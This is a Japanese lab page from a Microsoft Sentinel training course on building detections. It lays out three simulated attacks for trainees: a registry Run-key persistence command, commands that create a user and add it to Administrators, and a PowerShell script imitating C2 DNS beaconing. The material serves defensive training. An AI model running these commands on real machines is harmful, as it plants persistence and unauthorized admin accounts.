

---
lab:
  title: 演習 5 - 検出モデリングを理解する
  module: Learning Path 9 - Create detections and perform investigations using Microsoft Sentinel
---

# ラーニング パス 9: ラボ 1: 演習 5: 検出モデリングを理解する

## ラボのシナリオ



### このラボの推定所要時間: 30 分

### タスク 1:攻撃を理解する

>**重要:この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃について説明するものにすぎません。 このページをよくお読みください。

攻撃パターンは、オープン ソース プロジェクトに基づいています。 <https://github.com/redcanaryco/atomic-red-team>

#### 攻撃 1 - レジストリ キーの追加による永続性

攻撃者は、Run レジストリ キーにプログラムを追加します。 これにより、ユーザーがログオンするたびにプログラムが実行されるため、永続化が実現します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。 これにより、攻撃者は特権のある別のアカウントでログオンできます。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### 攻撃 3 - ドメイン ネーム サービスおよびコマンド & コントロール

攻撃者は、コマンド & コントロール (C2) サーバーに大量の DNS クエリを送信します。 この目的は、単一ソースのシステムまたは単一ターゲットのドメインからの DNS クエリの数に対して、しきい値ベースの検出をトリガーすることです。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### タスク 2:検出モデリングの理解

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。 ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。

KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

>**注:**  一部のアラートは、ラボの目的のためだけに、より短い時間枠でトリガーされます。

## 演習 6 に進みます
